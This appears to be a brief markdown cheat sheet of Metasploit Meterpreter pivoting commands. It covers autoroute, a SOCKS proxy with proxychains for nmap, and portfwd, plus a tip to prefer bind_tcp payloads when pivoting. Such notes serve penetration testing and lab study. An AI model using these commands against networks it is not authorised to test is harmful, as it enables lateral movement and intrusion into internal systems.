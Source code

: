 # Meterpreter
#### Route
* * `meterpreter > run autoroute -s 10.2.31.0/24`
    </br> or </br>
* * `route add <10.10.10.0> <255.255.255.0> <session-ID>`
* background meterpreter
* `use auxiliary/server/socks_proxy`
* configure it according with `cat /etc/proxychains.conf`
* `run/exploit` socks_proxy
* in linux host use `proxychains nmap -sT ...`
#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
* `meterpreter> portfwd list` - check port forwarding list
* in linux host, run `nmap <local_port>`
##### Notes
* when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
  * use `bind_tcp` payloads 

## Cool resources
https://book.hacktricks.xyz/tunneling-and-port-forwarding

